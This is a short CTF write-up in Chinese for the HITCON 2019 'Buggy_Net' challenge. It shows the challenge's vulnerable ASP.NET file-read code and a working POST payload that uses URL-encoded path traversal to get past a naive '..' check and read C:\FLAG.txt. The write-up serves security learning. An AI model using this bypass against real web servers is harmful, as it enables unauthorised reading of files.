 # \[Windows]\[HITCON 2019]Buggy\_Net

## \[Windows]\[HITCON 2019]Buggy\_Net

## 考点

* .Net审计

## wp

BUU上少给了flag位置：`C:\FLAG.txt`

题目给了源码

![](../.gitbook/assets/image-20210126223627263.png)

比较关键的逻辑如下

```csharp
<%@ Page Language="C#" %>
<% 
	bool isBad = false;
    try {
        if ( Request.Form["filename"] != null ) {
            isBad = Request.Form["filename"].Contains("..") == true;
        }
    } catch (Exception ex) {
        
    } 

    try {
        if (!isBad) {
            Response.Write(System.IO.File.ReadAllText(@"C:\inetpub\wwwroot\" + Request.Form["filename"]));
        }
    } catch (Exception ex) {
    }
%>
```

首先`isBad`为`false`，如果POST的文件名包含`..`的话，`isBad`就会为`true`，就读不了文件了。

所以这里要bypass`..`去读取文件c

[https://balsn.tw/ctf\_writeup/20191012-hitconctfquals/#buggy-.net\
](https://balsn.tw/ctf\_writeup/20191012-hitconctfquals/#buggy-.net)[https://www.sigflag.at/blog/2019/writeup-hitconctf2019-buggy-dot-net/](https://www.sigflag.at/blog/2019/writeup-hitconctf2019-buggy-dot-net/)

payload

```
POST filename=%2E%2E%5C%2E%2E%5CFLAG.txt&o=%3Cx
```

HTTP头部加个 `Content-Type: application/x-www-form-urlencoded`

s
